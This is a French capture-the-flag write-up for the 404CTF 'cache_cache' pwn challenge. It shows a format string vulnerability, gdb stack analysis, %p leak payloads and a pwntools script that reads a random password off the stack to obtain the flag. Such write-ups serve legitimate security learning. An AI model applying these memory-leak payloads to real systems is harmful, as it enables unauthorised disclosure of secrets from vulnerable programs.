

## PWN / Sans Protection

<p align="center">
  
</p>


### Look around

Le serveur demande un login et un mot de passe, fait un peu de magie avec puis refuse la connexion :

```bash
$ nc challenge.404ctf.fr 31946
Veuillez décliner votre identité:
aaaaaaaaa
Bonjour aaaaaaaaa

Quel est votre mot de passe?
aaaaaaa

Vérification du mot de passe en cours ...
Tentative de connexion non désirée. Changement de l'endpoint en cours...
```

Le `Bonjour aaaaaaa` fait tout de suite penser à une string format avec une saisie utilisateur qui ne serait pas contrôlée. On peut vite confirmer ça :
```bash
$ nc challenge.404ctf.fr 31946
Veuillez décliner votre identité:
.%08x.%08x.%08x
Bonjour .52a59c60.00000000.004532c7

Quel est votre mot de passe?
toto

Vérification du mot de passe en cours ...
Tentative de connexion non désirée. Changement de l'endpoint en cours...

```


### Analyse statique

Comme le binaire nous est fournit, on peut regarder ce qu'il se passe ...

```bash
$ checksec cache_cache
[*] '/home/maskott/github/ctf_404_2022/pwn/cache_cache/cache_cache'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Le canary et NX nous informe que ça va être compliqué de jouer avec la stack ... ceci dit, la format string doit nous permettre de lire ou écrire à peut près comme on veut. Reste à savoir quoi / où.

Un petit tour dans le code du binaire (je passe diverses allocations et je commente dans le code):

```c
int main(void)

{

  ...

  // le fameux canary
  canary = *(long *)(in_FS_OFFSET + 0x28);

  // un bloc pour générer un mot de passe aléatoire de 0x14 caractères
  // - index random entre 0 et 3
  // - appel à picker() sur un des 4 set de caractères désigné par index
  // - picker() retourne un char random parmis ce set
  i = 0x14;
  c = 'a';
  alph[0] = "1234567890";
  alph[1] = "abcdefghijklmnoqprstuvwyzx";
  alph[2] = "ABCDEFGHIJKLMNOPQRSTUYWVZX";
  alph[3] = "!@#$%^&*(){}[]:<>?,./";
  j = 4;
  seed = time((time_t *)0x0);
  srandom((uint)seed);
  for (; i != 0; i = i + -1) {
    index = rand_lim((int)j + -1);
    c = picker(alph[index]);
    strncat(valid_pass,&c,1);
  }

  // saisie du login
  // la vuln est ici dans le printf(user_name)

  fgets(user_name,0x78,(FILE *)stdin);
  printf("Bonjour ");
  printf(user_name);

  // saisie du mdp

  puts("\nQuel est votre mot de passe?");
  fgets(user_pass,0x15,(FILE *)stdin);
  sVar3 = strcspn(user_pass,"\n");
  user_pass[sVar3] = '\0';
  puts(&DAT_004950b0);

  // test du mot de passe
  // il doit être égal au mdp random généré ci-dessus

  iVar1 = strcmp(valid_pass,user_pass);
  local_131 = iVar1 == 0;
  if ((bool)local_131) {
    puts(
        "Bonjour Monsieur Dupont. \nComme toujours, nous sommes heureux de faire affaire avec vous."
        );
    puts(&DAT_00495140);
    local_120 = fopen64("flag.txt","rt");
    fgets(local_b8,0x28,local_120);
    puts(local_b8);
    fclose(local_120);
  }

  ...

  return 0;
}
```

Dans l'idée il s'agit bien :
- d'utiliser la format string pour lire le mot de passe généré et stocké dans `valid_pass`
- renvoyer ce mdp pour valider le test
- get the flag and grab a coffee

Pour plus d'infos sur le fonctionnement et l'exploitation d'une format string :

https://www.bases-hacking.org/format-strings.html

### Exploit

Il faut tâtonner un peu avec le serveur puis dans gdb pour voir la constitution de la stack et ce que nous allons pouvoir faire avec notre format string ...

```bash
Veuillez décliner votre identité:
AAAAAAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
Bonjour AAAAAAAA.65af06a0.00000000.004532c7.00000000.004c2880.65af2ad8.0041cb7e.015fd420.00000000.00000004.00000000.00495008.00495013.0049502e.00495049.58545a6a.297a3151.363a2563.00000002.0000000b.00000000.00000000.
Quel est votre mot de passe?

Vérification du mot de passe en cours ...
Tentative de connexion non désirée. Changement de l'endpoint en cours...
```

Pour l'instant cela ne nous apprends pas grand chose, nous sommes limités en taille par le `fgets(user_name,0x78,stdin)` qui ne lit que 0x78 (120) octets.

```bash
Veuillez décliner votre identité:
AAAAAAAA%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Bonjour AAAAAAAAb81b80f004532c704c2880b81ba52841cb7ec4942004049500849501349502e49504921393c6c7a642332352942212b0007c6e4c288004c28809414141417825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825a9f212001401d4a040174b0b81ba528b81ba5384a8b4f771b81ba528
Quel est votre mot de passe?

Vérification du mot de passe en cours ...
Tentative de connexion non désirée. Changement de l'endpoint en cours...
```
C'est plus moche ... mais pour le coup on retrouve bien nos 'AAAAAAAA' sur la stack : `41414141` suivit des `7825` qui correspondent aux caractères `%x`.

- Le programme lit notre login
- le pose dans la stack
- puis doit l'afficher `printf(user_name)`

A ce moment, comme nous avons inséré des caractères de chaîne formatée dans le login (pour le moment %x), il va chercher autant d'arguments que formateurs dans la chaîne.


Comme nous sommes réduit par la taille de la saisie, on va utiliser les modifieurs comme `i$` qui indique que `%x` correspond au `ie` argument.

Pour lire toutes les valeurs sous forme d'une adresse hexa, on va utiliser `%p` dans notre format string.

Y'a plus qu'à regarder la stack dans gdb pour voir les offset entre notre saisie et le mot de passe.


Juste après la saisie du login :


```bash
gdb-peda$ x/42gx $rsp
0x7fffffffdd20:	0x00007fffffffe038	0x000000010041cb7e <= top stack
0x7fffffffdd30:	0x004d0000004cb440	0x0000000200000000
0x7fffffffdd40:	0x0000000000000004	0x0000000000000000
0x7fffffffdd50:	0x0000000000495008	0x0000000000495013
0x7fffffffdd60:	0x000000000049502e	0x0000000000495049
0x7fffffffdd70:	0x3630463765435738	0x432135613a793236 <= mdp aléatoire sur 0x14 (20) octets
0x7fffffffdd80:	0x000000004d6c7d24	0x0000000000000002 <=
0x7fffffffdd90:	0x000000320000000b	0x0000000000000000
0x7fffffffdda0:	0x0000000000000000	0x0000000000000000
0x7fffffffddb0:	0x000000770000007c	0x0000005b0000006e
0x7fffffffddc0:	0x00000000004c2880	0x0000000000000000
0x7fffffffddd0:	0x00000000004c2880	0x0000000000000009
0x7fffffffdde0:	0x4141414141414141	0x4242424242424242 <= login
0x7fffffffddf0:	0x4343434343434343	0x4444444444444444
0x7fffffffde00:	0x000000000000000a	0x0000000000000000
0x7fffffffde10:	0x00000000004c32e0	0x0000000000000000
0x7fffffffde20:	0x0000000000000000	0x0000000000487f1e
0x7fffffffde30:	0x00007fffffffde90	0x00000000004be770
0x7fffffffde40:	0x0000000000000000	0x0000000000458039
0x7fffffffde50:	0x000000062d33302d	0x1385a4d2e7ce8100 <= canary
0x7fffffffde60:	0x0000000000000001	0x0000000000401d4a <= saved RIP (adresse de retour de main)
```

Au moment de l'appel à `printf` la stack n'a pas bougé. Et `printf` va rechercher ses arguments dans les registres pour les 6 premiers, puis sur la pile.

Si on entre `AAAAAAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x. ....` :

- RDI (premier argument) : contient toute la chaîne

Ensuite `printf` va chercher autant d'arguments à afficher que de formateurs dans la chaîne :

`printf("AAAAAAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x", RSI, RDX, RCX, R8, R9, stack[0], stack[1] ...)`


Pour les conventions d'appel en x86_64 : https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame


Notre fameux mot de passe est à 11 offsets du début de la stack, plus les 5 registres (RSI, RDX, RCX, R8, R9), il faut indiquer à notre format string de lire à partir du 16e argument :

```bash

Veuillez décliner votre identité:
AAAAAAAA%16$p%17$p%18$p
Bonjour AAAAAAAA0x66783757552c34400x762a387d396341730x3173336e

Quel est votre mot de passe?
```


C'est bon, fin du game, y'a plus qu'à coder un petit script :


```python
rep = r.recvuntil(b':\n')
print(rep)

fmtstr = b'AAAAAAAA'  + b"%16$p%17$p%18$p"

r.send(fmtstr + NL)

leak = r.recv()

passwd = leak.split(b'\n\n')[0].split(b'0x')[1:]

print(passwd)

p = ""

for c in passwd:
    c = c.decode()
    c = bytes.fromhex(c)
    p += c.decode("ASCII")[::-1]

print(p)
print(len(p))

r.send(p.encode() + NL)

rep = r.recv()
print(rep.decode())
rep = r.recv()

print(rep.decode())
```

```bash
$ python3 cache.py REMOTE
[*] '/home/maskott/github/ctf_404_2022/pwn/cache_cache/cache_cache'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenge.404ctf.fr on port 31946: Done
b'Veuillez d\xc3\xa9cliner votre identit\xc3\xa9:\n'
b'AAAAAAAA%16$p%17$p%18$p'
[b'334d6e3f70663676', b'335e703e35335739', b'33632931\r']
v6fp?nM39W35>p^31)c3
20

Vérification du mot de passe en cours ...
Bonjour Monsieur Dupont.
Comme toujours, nous sommes heureux de faire affaire avec vous.
Vous avez plusieurs paiements en attente à récupérer. Veuillez nous transmettre votre adresse ethereum de la manière prévue auparavant.

404CTF{13_10UP_D3V0r3_14_H411384rD3}
```
